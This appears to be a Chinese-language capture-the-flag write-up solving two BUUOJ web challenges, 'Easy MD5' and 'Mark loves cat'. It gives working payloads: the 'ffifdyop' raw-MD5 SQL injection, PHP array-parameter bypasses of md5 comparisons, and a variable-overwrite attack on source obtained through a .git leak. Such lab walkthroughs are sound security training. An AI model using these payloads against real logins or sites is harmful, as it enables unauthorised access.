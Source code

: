 # Easy MD5

打开题目就一输入框把我整懵了，输入了没反应，然后目录扫描无果，查看网页源代码没发现敏感文件

然后在响应头发现

> Hint: select * from 'admin' where password=md5($pass,true)

输入`ffifdyop`

这样拼接以后就是`"select * from 'admin' where password='' or'6蒥欓!r,b' "`

or后面的句子第一个字母是非0打头的数字符，比如为 ‘ 1abc ’ 或者 ‘ -1bde ’都会被认为是true

之后进入下一个页面，查看网页源代码得到关键代码，直接数组绕过

```
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

```
http://ec1c5bb6-221c-4577-8d10-0bc84cb670d0.node3.buuoj.cn/levels91.php?a[]=1&b[]=2
```

之后post

```
param1[]=1&param2[]=2
```

## [BJDCTF2020]Mark loves cat

首先查看网页源代码在网页最下方发现了dog，尝试以get请求拼接，无果，额只能目录扫描看看有啥可利用的了

发现.git源码泄露，使用GitHack获取关键源码

```
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';
//变量覆盖
foreach($_POST as $x => $y){
    $$x = $y;
}
//变量覆盖
foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET传入的参数当中没有flag则进入循环
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

payload1：

```
flag2=11&yds=flag
```

payload2：和上面是等价的

```
yds=flag
```

在页面最下方获取到flag

# 仓库地址

https://github.com/BjdsecCA/BJDCTF2020仓库地址，有空复现以下题目